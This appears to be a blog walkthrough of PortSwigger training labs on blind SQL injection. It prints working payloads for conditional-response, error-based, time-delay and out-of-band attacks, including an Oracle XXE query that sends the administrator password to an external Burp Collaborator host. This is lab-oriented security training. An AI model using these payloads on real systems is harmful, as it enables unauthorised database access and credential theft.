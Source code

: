 ```yaml
---
layout: post
title:  "Blind SQL injection – Portswigger Walkthroughs"
date:   2022-11-14 09:00:21 +0200
author: Clara Hällgren
---
```

In the previous articles on SQL injection (SQLi) we have seen the database output in the HTTP responses. A blind SQLi vulnerability
does not respond with directly viewable data as a table name or its content. It is still possible to exploit these vulnerabilities 
if you use other, a bit more sophisticated, techniques like triggering conditional responses or SQL errors. In this article I will 
continue to do walkthroughs of Portswiggers Labs, and this time, they are all about blind vulnerabilities.

## LAB: Blind SQL injection with conditional responses 

This lab contains a blind SQLi vulnerability in its Tracking cookie that if recognized will display a "Welcome Back" message
on the page. We know that the database contains a table named users with the columns username and password. To solve the lab we need to log in 
as the administrator. 

Step 1: I click the home page and notice the "welcome back" message on the page. I open the request in burp suite and start to play around with it.
To prove its vulnerable I add an always-false condition to the tracking cookie ('AND 1=2--). Perfect, the "Welcome Back" message is no longer there.

Step 2: As I already have the table, column and users names I need to one by one test each letter in the administrators' password. When I see 
the Welcome back message I know I have the right character for that specific position in the password. This is done by querying a substring 
of the password, just one letter, and comparing it to a letter of my choice. 

    'AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'),1,1) = 'a--

To test this out, the probability that the first letter in the password is 'a' is quite small. And yes, the Welcome back message is 
no longer visible. Although, the probability that the first letter is bigger than 'a' is quite large which is true as the following query 
displays the welcome back message. So, if the query is true the welcome back message will show, if not it disappears. 

    'AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'),1,1)>'a--

I could do this manually for every letter and number in the password. But I don't want to. So I will use Burp Intruder for this task.
Here I can go letter by letter and Grep the Welcome Back message which shows each letter on each position. Eventually I get the password and 
the lab is solved. 

## LAB: Blind SQL injection with conditional errors

In the previous example we could exploit the SQLi vulnerability with one kind of visual boolean response on the webpage. Sometimes we can't. 
That does not always mean we cannot exploit the vulnerability. In this lab we will make the database generate an error when
the statement is true, and not when it's false. This is possible if the error thrown in unhandled in the backend code as it then (hopefully)
will cause some difference in the application response which allows us to infer the truth of the injected condition. 

Look at these for example: 

(SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END) = 'a -> Will result in 'a' and not generate an error.
(SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END) = 'a -> Will result in a divide by 0 error as the expression is true.

So we can systematically retrieve data one char at a time by modifying this condition. If we see an error message, we know
we got it right. 

    'AND (SELECT CASE WHEN (username = 'administrator' AND SUBSTRING(password,1,1) = 'm') THEN 1/0 ELSE 'a' END FROM users) ='a

What this query says is that if username is administrator and the first letter of the password is m then divide 1/0 and
cause an error. If not, the value of the parenthesis is 'a' which will be compared with 'a', aka always true and never cause
an error. 

Step 1: I first like to confirm the vulnerability by requesting simple queries that I know are true or false to see the 
behaviour. Therefore, I start with the first to examples which generates 500 error in both cases. This is not expected and will not work, so I view the 
cheat sheet for how to do the same thing on different database types. I find that it probably is an Oracle database as 
this gives me the expected result: Http ok when the condition is false and 500 server error when true.

    'AND (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a--
    'AND (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a--

Step 2: Now I want to make sure my query is correct before I send it to Intruder. This is how my working query looks: 

    AND (SELECT CASE WHEN SUBSTR(password,1,1)<'a' THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') = 'a--

Step 3: Send the working request to intruder and press clear. Change the < to = and add the first number in SUBSTR and 'a' as a parameter. This time
I will use a more advanced way of working with the intruder than the last lab (Note, there is an even better way but let's keep it kinda simple). Choose Cluster bomb as attack type and go to payloads. Set payload set to 1 and add the numbers 1-25 to begin with.
Set payload set to 2 and add 0-9, a-z, and A-Z. Now we can start the attack. 
Sort the result on status with 500 at the top and there is your password with position as Payload 1 and letter/number as payload 2. 

## LAB: Blind SQL injection with time delays

Okay cool. But can we exploit Blind SQLi vulnerabilities if we don't see anything in the response? No "Welcome back" message or
error message is delivered to the application? Well, yes! or at least sometimes. In this situation it is sometimes possible to 
exploit this by triggering time delays on if a condition is true or not. This is only possible if SQL queries are handled synchronously, which
they generally are, as delaying the execution of a SQL query will delay the HTTP response. This basically means, that we can trigger a time delay
if a condition is true and thereby, systematically retrieve data letter by letter. 

In this lab, the objective is to cause a 10-second time delay using the tracking cookie's vulnerability. Time delays are highly dependent on 
what kind of database we are dealing with, so the cheat sheet is a great asset. 

Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	SELECT SLEEP(10)

The third option seems to be correct and when I use the query below, I get a 10-second time delay.

    '||pg_sleep(10)--

## LAB: Blind SQL injection with time delays and information retrieval

Step 1: I run the same command as the result was in the previous lab just to make sure we are still dealing with a 
PostgreSQL database. Below is the format for conditional time delays on PostgreSQL.

    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END

Adding simple conditions like 1=1 confirms that this works fine. Then I try to use my command from earlier which does not work
so I read some documentation and change it accordingly. The below query works. Note that the ';' is needed at the beginning. This
marks that the queries should be handled separately. 

    '; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)>'a') THEN pg_sleep(10) ELSE pg_sleep(10) END FROM users--

Use intruder to automate the work of finding out the password. This is done just like previous examples but with one exception. For the process of 
to be as reliable as possible you should only send one request at a time, configure this under resource pool. To view the time it takes for 
each request, go to columns menu in the attack-popup and check in the box Response received. 

## LAB: Blind SQL injection with out-of-band interaction

If the database queries run asynchronously then? Yes, it is still possible to exploit. This is even a preferred method for many 
when dealing with Blind SQLi as data can be exfiltrated directly within the network interaction itself. In this lab the Tracking cookie is
vulnerable but none of the methods in previous labs will do the trick. If we view the cheat sheet there are different ways of exploiting this 
depending on the type of database, I start by trying with the first one which is Oracle. The documentation says: 

    SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

And I modify it to fit my needs and add my generated Burp Collaborator address:

    'UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://ig24849hofldo23mg48f7njde4kv8lwa.oastify.com/"> %remote;]>'),'/l') FROM dual

This is enough to cause a DNS query which it solves the lab. Note that we did not add any query to this as it was not the lab objective.

## LAB: Blind SQL injection with out-of-band data exfiltration

This is the same thing as the previous lab except that we should get the administrator password as well. Looking at the 
SQLi cheat sheets note on out of band interaction on Oracle again:

    SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

Then we modify it to fit our needs: 

    'UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.q90c1c2phnelhawu9c1n0vcl7cd31upj.oastify.com/"> %remote;]>'),'/l') FROM dual

Before the domain name in the DNS lookups in burp collaborator we see the password. Log in as administrator and the lab is solved. 

